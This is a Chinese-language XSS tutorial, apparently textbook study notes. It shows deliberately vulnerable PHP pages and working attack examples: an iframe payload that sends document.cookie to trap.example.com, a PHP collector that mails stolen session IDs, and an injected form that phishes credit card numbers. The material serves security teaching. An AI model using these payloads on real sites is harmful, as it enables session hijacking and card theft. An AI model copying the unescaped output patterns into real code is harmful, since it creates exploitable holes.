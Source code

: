 跨站脚本（基础篇）之攻击手段与影响
=================================================================
为了更好地理解`XSS`的攻击方法与影响，首先让我们来看一下 **`XSS`被恶意使用的`3`种方式**：
+ **窃取`Cookie`值**
+ **通过`JavaScript`攻击**
+ **篡改网页**

### XSS窃取Cookie值
假设以下`PHP`脚本是搜索页面的一部分。该页面需要用户登录后才能使用，页面上显示的是搜索关键词。
```php
<?php
    session_start();
    //登录校验（略）
?>
<body>
检索关键词：<?php echo $_GET['keyword']; ?><br>
以下略
</body>
```
先来看一下正常情况，假设关键词为“Haskell”，URL如下：http://example.jp/43/43-001.php?keyword=Haskell 。

再看一下攻击的例子：http://example.jp/43/43-001.php?keyword=<script>alert(document.cookie)</script>

上面这个攻击的例子中，**保存在`Cookie`中的会话`ID(PHPSESSID)`会被显示出来。表明外部注入的`Javascript`成功
读取到了会话`ID`**。

#### 使用被动攻击盗取他人的Cookie值
能够显示自己的会话`ID`对于攻击者来说并无太大意义，**在实际的攻击中，攻击者需要将存在隐患的网站的用户引诱至恶意网站**。
以下就是恶意网站的示例：
```php
<html><body>
商品大甩卖
<br><br>
<iframe width=320 height=100 src="http://example.jp/43/43-001.php?keyword=<script>window.location='http://trap.example.com/43/43-901.php?sid='%2Bdocument.cookie;</script>">
</frame>
```
**恶意网站的`HTML`使用了`iframe`元素来显示存在隐患的网站的页面（`/43/43-001.php`），并对其实施`XSS`攻击**。
```
实际的攻击中，攻击者会通过设置CSS将iframe部分隐藏，以不被用户看到
```
攻击流程：
+ 恶意网站的`iframe`中显示出存在隐患的网站
+ 存在隐患的网站遭受攻击后，`Cookie`值被添加到`URL`的查询字符串中，页面跳转到信息收集页面
+ 信息收集页面将接收到的`Cookie`值通过邮件发送给攻击者

以下为收集信息用的脚本，它会将收集到的会话`ID`发送给攻击者的邮箱（假定为`wasbook@example.jp`）。
```php
<?php
    mb_language('Japanese');
    $sid = $_GET['sid'];
    mb_send_mail('wasbook@example.jp','攻击成功','会话ID:' . $sid, 'From: cracked@trap.example.com');
?>
<body>攻击成功<br>
<?php echo $sid; ?>
</body>
```
如此这般，**如果用户是在登录了存在隐患的网站之后浏览的恶意网页**，就会中了`XSS`的招而使自己的会话`ID`通过邮件发送给攻击者。
攻击者利用得到的会话`ID`，就可以伪装成其他用户肆意忘为。

### 通过JavaScript攻击
在上面的例子中，攻击者利用`JavaScript`读取到了用户的`Cookie`值，然而，事实上利用`JavaScript`实施的攻击却远不止如此。
另外，随着`Ajax`技术的风靡，通过`JavaScript`调用`Web`应用的各种功能的程序（`API`）在网站中的分量正在逐步增加。
由于`API`也能被恶意用于实施攻击，因此，综合使用`XSS`与`JavaScript`的攻击实施起来反而变得更容易了。

#### 篡改页面
示例，某新发布的手机预购网站。该网站由于存在`XSS`漏洞，因此便能够对网页中的`HTML`元素进行添加/更改/删除，
或者更改表单发送的目标。

网页脚本的主干内容如下。由于该页面兼任着输入页面和编辑页面，因此各个输入框都设置了初始值。而`XSS`漏洞就存在于此。
```php
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
<head><title>全新手机预约</title></head>
<body>
<form action="" method="POST">
姓名<input size="20" name="name" value="<?php echo @$_POST['name']; ?>"><br>
地址<input size="20" name="addr" value="<?php echo @$_POST['addr']; ?>"><br>
电话号码<input size="20" name="tel" value="<?php echo @$_POST['tel']; ?>"><br>
型号<input size="10" name="kind" value="<?php echo @$_POST['kind']; ?>"><br>
数量<input size="5" name="num" value="<?php echo @$_POST['num']; ?>"><br>
<br>
<input type=submit value="申请"></form>
</body>
</html>
```
**虽然该网站没有认证功能，但同样能对其实施`XSS`攻击**。

以下`HTML`(`43-902.html`)为对“某新款手机的预约网站”进行`XSS`攻击的恶意网页。
**该页面同时也可以作为不使用`JavaScript`的`XSS`攻击的示例**，页面上通过样式将攻击用表单的提交
按钮伪装成了链接的样子。
```php
<html>
<head><title>使用信用卡预约全新手机</title></head>
<body>
现在可以使用信用卡预约手机，赶紧下单吧。
<BR>
<form action="http://example.jp/43/43-002.php" method="POST">
<input name="name" type="hidden" value='">
    </form><form style=top:5px;left:5px;position:absolute;z-index:99;background-color:white 
    action=http://trap.example.com/43/43-903.php method=POST>请使用信用卡支付预购定金<br>姓名
    <input size=20 name=name><br>地址<input size=20 name=addr><br>电话号码<input size=20 name=tel>
    <br>型号<input size=10 name=kind>数量<input size=5 name=num><br>信用卡号<input size=16 name=card>
    有效期限<input size=5 name=thru><br><input value=申请 type=submit><br><br><br><br></from>'><!-注入的HTML->

<input style="cursor:pointer;text-decoration:underline;color:blue;
border:none;background:transparent;font-size:100%;" type="submit" value="手机预约中心"> <!-伪装成链接的按键->
</form>
</body>
</html>
```














